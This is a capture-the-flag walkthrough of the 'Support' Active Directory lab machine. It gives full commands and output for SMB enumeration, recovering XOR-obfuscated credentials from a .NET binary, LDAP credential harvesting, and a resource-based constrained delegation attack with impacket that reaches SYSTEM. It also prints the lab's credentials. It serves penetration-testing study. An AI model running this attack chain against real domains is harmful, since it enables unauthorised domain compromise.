


# Support


## 1. Reconnaisance

Let's perform an nmap scan to identify the open ports and services running on the <MACHINE-IP>

```bash
nmap -sC -sV -A <MACHINE-IP> 
```

Output:

```bash
Host is up (0.33s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-04-07 13:56:33Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022|2012|2016 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016
Aggressive OS guesses: Microsoft Windows Server 2022 (89%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-04-07T13:57:06
|_  start_date: N/A
|_clock-skew: -1s

TRACEROUTE (using port 139/tcp)
HOP RTT       ADDRESS
1   339.93 ms 10.10.14.1
2   340.82 ms 10.129.29.40

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 111.04 seconds
```
nmap results are strongly showing that this is an Active Directory Environment along with domain name `support.htb` and LDAP being used.

Using dig, we are able to see the domain name

```bash
dig @10.129.29.238 support.htb any

; <<>> DiG 9.20.20-1-Debian <<>> @10.129.29.238 support.htb any
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 53393
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 3, AUTHORITY: 0, ADDITIONAL: 2

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;support.htb.                   IN      ANY

;; ANSWER SECTION:
support.htb.            600     IN      A       10.129.29.238
support.htb.            3600    IN      NS      dc.support.htb.
support.htb.            3600    IN      SOA     dc.support.htb. hostmaster.support.htb. 141 900 600 86400 3600

;; ADDITIONAL SECTION:
dc.support.htb.         3600    IN      A       10.129.29.238

;; Query time: 307 msec
;; SERVER: 10.129.29.238#53(10.129.29.238) (TCP)
;; WHEN: Wed Apr 08 12:31:15 EDT 2026
;; MSG SIZE  rcvd: 136
```

We found the domain name. 

Let's add them to /etc/hosts

```bash
echo "<MACHINE-IP> support.htb dc.support.htb" | sudo tee -a /etc/hosts
```

## 2. SMB Enumeration

Since we didn't have a valid username and password, let's use smbclient to enumerate shares

```bash
smbclient -L <MACHINE-IP>

Password for [WORKGROUP\kali]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        support-tools   Disk      support staff tools
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.29.238 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

We found a custom share `support-tools`.    

### 2.1 Anonymous SMB Share Access

We are unable to connect to the administrative shares and unable to list the `NETLOGON` and `SYSVOL`, This leaves us with the custom share

Let's access the share

```bash
smbclient -L //<MACHINE-IP>/support-tools -N

Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jul 20 13:01:06 2022
  ..                                  D        0  Sat May 28 07:18:25 2022
  7-ZipPortable_21.07.paf.exe         A  2880728  Sat May 28 07:19:19 2022
  npp.8.4.1.portable.x64.zip          A  5439245  Sat May 28 07:19:55 2022
  putty.exe                           A  1273576  Sat May 28 07:20:06 2022
  SysinternalsSuite.zip               A 48102161  Sat May 28 07:19:31 2022
  UserInfo.exe.zip                    A   277499  Wed Jul 20 13:01:07 2022
  windirstat1_1_2_setup.exe           A    79171  Sat May 28 07:20:17 2022
  WiresharkPortable64_3.6.5.paf.exe      A 44398000  Sat May 28 07:19:43 2022

                4026367 blocks of size 4096. 971061 blocks available
```

All of these files are publicly available files except for UserInfo.exe.Zip. I'll inspect that file.

```bash
smb: \> get UserInfo.exe.zip 
getting file \UserInfo.exe.zip of size 277499 as UserInfo.exe.zip (91.3 KiloBytes/sec) (average 91.3 KiloBytes/sec)
```
The archive has a bunch of files

```bash
unzip UserInfo.exe.zip 
Archive:  UserInfo.exe.zip
  inflating: UserInfo.exe            
  inflating: CommandLineParser.dll   
  inflating: Microsoft.Bcl.AsyncInterfaces.dll  
  inflating: Microsoft.Extensions.DependencyInjection.Abstractions.dll  
  inflating: Microsoft.Extensions.DependencyInjection.dll  
  inflating: Microsoft.Extensions.Logging.Abstractions.dll  
  inflating: System.Buffers.dll      
  inflating: System.Memory.dll       
  inflating: System.Numerics.Vectors.dll  
  inflating: System.Runtime.CompilerServices.Unsafe.dll  
  inflating: System.Threading.Tasks.Extensions.dll  
  inflating: UserInfo.exe.config 
```

## 3. Initial Foothold

The EXE is 32-bit .NET executable

```bash
file UserInfo.exe                                            
UserInfo.exe: PE32 executable for MS Windows 6.00 (console), Intel i386 Mono/.Net assembly, 3 sections
```

Static analysis using the strings utility revealed references to functions and variables such as "getPassword", "enc_password", and "FromBase64String", suggesting that the application processes encoded or stored credentials.

### 3.1 Static Binary Decompilation

strings hinted at encrypted creds, so we decompiled with ILSpy to confirm.
We performed IL decompilation on the .NET assembly to recover source code without execution:

```bash
ilspycmd UserInfo.exe > output.cs
```

### 3.2 Hardcoded Credential Storage (Encrypted Password + Key)

```bash
private static string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";

		private static byte[] key = Encoding.ASCII.GetBytes("armando");

		public static string getPassword()
		{
			byte[] array = Convert.FromBase64String(enc_password);
			byte[] array2 = array;
			for (int i = 0; i < array.Length; i++)
			{
				array2[i] = (byte)((uint)(array[i] ^ key[i % key.Length]) ^ 0xDFu);
			}
			return Encoding.Default.GetString(array2);
		}
```

The decompiled source code revealed hardcoded LDAP credentials, XOR encryption logic (key: armando, XOR'd with 0xDF), and Base64-encoded credential storage. Analysis of the `GetPassword()` method yielded the support user's password.

We can analyze the source code to get the encrypted password and key for the encyption.

Use them as arguments to get the password using the script [decrypt.py](decrypt.py)

```text
# decrypt.py takes the base64 encoded password and XOR key as arguments
# and reverses the encryption to recover the plaintext password
```

```bash
python3 decrypt.py 0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E 'armando'
[+] Decrypted: nv...............lmz
```
Now we have valid credentials.

## 4. LDAP 

`ldapsearch` will show all the items in AD. (LDAP contains all the information of AD in a heirarchial order and we can use ldapsearch to access the data, it is similar to databases)

```bash
ldapsearch -h support.htb -D "ldap@support.htb" -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "dc=support,dc=htb" | less
# This generates a high volume of output
```

```bash
ldapsearch -x -H ldap://10.129.29.238 -D "support\\ldap" -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "dc=support,dc=htb" "(ObjectClass=User)" "*"
```

I found an interesting `info` field for user `support`

```text

# support, Users, support.htb
dn: CN=support,CN=Users,DC=support,DC=htb
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: support
c: US
l: Chapel Hill
st: NC
postalCode: 27514
distinguishedName: CN=support,CN=Users,DC=support,DC=htb
instanceType: 4
whenCreated: 20220528111200.0Z
whenChanged: 20220528111201.0Z
uSNCreated: 12617
info: Ironside47pleasure40Watchful
memberOf: CN=Shared Support Accounts,CN=Users,DC=support,DC=htb
memberOf: CN=Remote Management Users,CN=Builtin,DC=support,DC=htb
uSNChanged: 12630
company: support
streetAddress: Skipper Bowles Dr
name: support
objectGUID:: CqM5MfoxMEWepIBTs5an8Q==
userAccountControl: 66048
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 0
pwdLastSet: 132982099209777070
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAG9v9Y4G6g8nmcEILUQQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: support
sAMAccountType: 805306368
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=support,DC=htb
dSCorePropagationData: 20220528111201.0Z
dSCorePropagationData: 16010101000000.0Z
```

Administrators sometimes store credentials in the `info` field

We can check if we can access the support using evil-winrm via bloodhound

```bash
bloodhound-python -d support.htb \
-u ldap \
-p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' \
-dc dc.support.htb \
-ns 10.129.29.238 \
-c All
```

Further analysis showed that `support` user is in `Remote Management Users`. We can login using evil-winrm



## 5. User Flag

I used evil-winrm to login as `support` and it worked.

```bash
evil-winrm -i <MACHINE-IP> -u support -p '<PASSWORD>'

*Evil-WinRM* PS C:\Users> type C:\Users\support\Desktop\user.txt
11**********************dc5
```

## 6. Privilege Escalation

Further analysis on bloodhound revealed that `support` user is in `Shared Support Accounts` group which has `Generic All` permissions on DC.SUPPORT.HTB(Domain Controller).



This is a classic Resource-Based-Constraint-Delegation attack vector.

We can create a fake computer object -> delegate it to Domain Controller -> Impersonate Administrator -> get a TGt -> use the Ticket to login as Administrator using smbexec.

### 6.1 Create a Fake Computer

```bash
kali㉿kali)-[~/htb/support]
└─$ impacket-addcomputer support.htb/support:'Ironside47pleasure40Watchful' \
-dc-ip <MACHINE-IP> \
-computer-name 'FAKEPC$' \
-computer-pass 'Pass123!@#'
```

### 6.2 Delegate to Domain Controller

```bash
impacket-rbcd support.htb/support:'Ironside47pleasure40Watchful' -delegate-from 'FAKEPC$' -delegate-to 'DC$' -action write -dc-ip 10.129.29.238
Impacket v0.14.0.dev0+20260226.31512.9d3d86ea - Copyright Fortra, LLC and its affiliated companies 

[*] Accounts allowed to act on behalf of other identity:
[*]     Fake$        (S-1-5-21-1677581083-3380853377-188903654-6101)
[*] Delegation rights modified successfully!
[*] FAKEPC$ can now impersonate users on DC$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     Fake$        (S-1-5-21-1677581083-3380853377-188903654-6101)
[*]     FAKEPC$      (S-1-5-21-1677581083-3380853377-188903654-6102)
```

This will delegate our Fake Computer to DC and modify the msds-allowedtoactonbehalfofotheridentity

### 6.3 Impersonate Administrator

```bash
┌──(kali㉿kali)-[~/htb/support]
└─$ impacket-getST support.htb/'FAKEPC$':'Pass123!@#' -spn cifs/dc.support.htb -impersonate administrator -dc-ip 10.129.29.238
Impacket v0.14.0.dev0+20260226.31512.9d3d86ea - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache
```

Export the ticket, so that it will be sent for every request by default

```bash
export KRB5CCNAME=administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache 
```

## 7. Root Flag

Login via smbexec

```bash
┌──(kali㉿kali)-[~/htb/support]
└─$ impacket-smbexec support.htb/administrator@dc.support.htb -k -no-pass
[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system
C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
33**********************af
```

## 8. Attack Chain Summary

```text
Reconnaissance
│
├─ Nmap Scan
│  └─ Identified Active Directory (LDAP, Kerberos, SMB)
│
├─ DNS Enumeration
│  └─ Domain discovered → support.htb
│
SMB Enumeration
│
├─ Anonymous SMB Access
│  └─ Found share → support-tools
│
├─ File Download
│  └─ UserInfo.exe.zip
│
Initial Foothold
│
├─ .NET Binary Analysis
│  ├─ Decompiled using ILSpy
│  ├─ Found:
│  │   ├─ Hardcoded LDAP credentials
│  │   ├─ XOR encryption (key: armando, XOR'd with 0xDF)
│  │   └─ Base64 encoded password
│  │
│  └─ Decrypted password → ldap user creds
│
LDAP Enumeration
│
├─ ldapsearch with creds
│  └─ Extracted sensitive info field
│     └─ support user password → Ironside47pleasure40Watchful
│
User Access
│
├─ WinRM Login (evil-winrm)
│  └─ Access as support user
│
Privilege Escalation
│
├─ BloodHound Analysis
│  └─ Found:
│     └─ support ∈ Shared Support Accounts
│        └─ GenericAll on Domain Controller
│
├─ RBCD Attack
│  │
│  ├─ Create Fake Computer
│  │   └─ FAKEPC$
│  │
│  ├─ Configure Delegation
│  │   └─ Allowed to act on behalf of DC$
│  │
│  ├─ S4U Attack
│  │   ├─ Impersonate Administrator
│  │   └─ Get Service Ticket (TGS)
│  │
│  └─ Export Kerberos Ticket
│
Root Access
│
└─ smbexec with Kerberos ticket
   └─ NT AUTHORITY\SYSTEM → Root flag
```

## 9. Key Vulnerabilties

| # | Vulnerability | Description | Impact |
|---|-------------|------------|--------|
| 1 | Anonymous SMB Share Access | `support-tools` share accessible without authentication | Initial foothold via sensitive file download |
| 2 | Hardcoded Credentials in Binary | UserInfo.exe contained LDAP credentials (obfuscated only) | Credential disclosure |
| 3 | Weak Encryption (XOR + Base64) | Easily reversible encoding used for password storage | Password recovery |
| 4 | Sensitive Data in LDAP `info` Field | Plaintext password stored in AD attribute | Privilege escalation vector |
| 5 | WinRM Access Enabled | support user allowed remote login | Shell access obtained |
| 6 | Over-Privileged Group Membership | support user in "Shared Support Accounts" | Indirect high privileges |
| 7 | GenericAll on Domain Controller | Full control over DC object in AD | Critical privilege escalation |
| 8 | Misconfigured RBCD | Resource-Based Constrained Delegation abuse possible | Domain Admin impersonation |
| 9 | Lack of Monitoring | No detection of abnormal delegation or ticket abuse | Attack goes unnoticed |


